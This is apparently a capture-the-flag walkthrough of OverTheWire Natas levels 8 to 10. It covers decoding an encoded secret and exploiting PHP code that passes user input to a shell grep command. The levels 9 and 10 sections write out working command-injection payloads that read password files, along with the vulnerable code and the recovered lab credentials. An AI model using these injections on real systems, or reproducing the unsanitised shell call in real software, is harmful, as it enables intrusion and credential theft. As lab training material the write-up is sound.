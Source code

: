 In CyberChef we can take `3d3d516343746d4d6d6c315669563362` and apply `From Hex`->`Reverse`->`From Base64`
to get `oubWYf2kBq`. Input this secret and we get `natas9:Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd`


## Natas 9
There was a search page where you could enter words and search a dictionary. 
```
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
```

In the Url, I saw that whatever you entered in the search bar would appear here. For example, I entered `test`.
`http://natas9.natas.labs.overthewire.org/?needle=test&submit=Search`. From here I messed around a bit and then decided
to try to break the string being executed by using a `|`. I was able to get command injection be entering `| ls;`. From there I
messed around until I hit `[http://natas9.natas.labs.overthewire.org/?needle=|%20cat%20.htpasswd;&submit=Search](http://natas9.natas.labs.overthewire.org/?needle=|%20cat%20/etc/natas_webpass/natas10;&submit=Search)`,
which got me the credentials.

`natas10:D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE`
## Natas 10
They are filtering some input this time.

```
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>
```
(Walkthrough consulted: https://hackmethod.com/overthewire-natas-10/?v=7516fd43adaa)
You can insert a param to search for and an additional file since we control part of the input string. So we choose to search the password file for the password we need.
```
http://natas10.natas.labs.overthewire.org/?needle=a+%2Fetc%2Fnatas_webpass%2Fnatas11&submit=Search
```
`natas11:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg`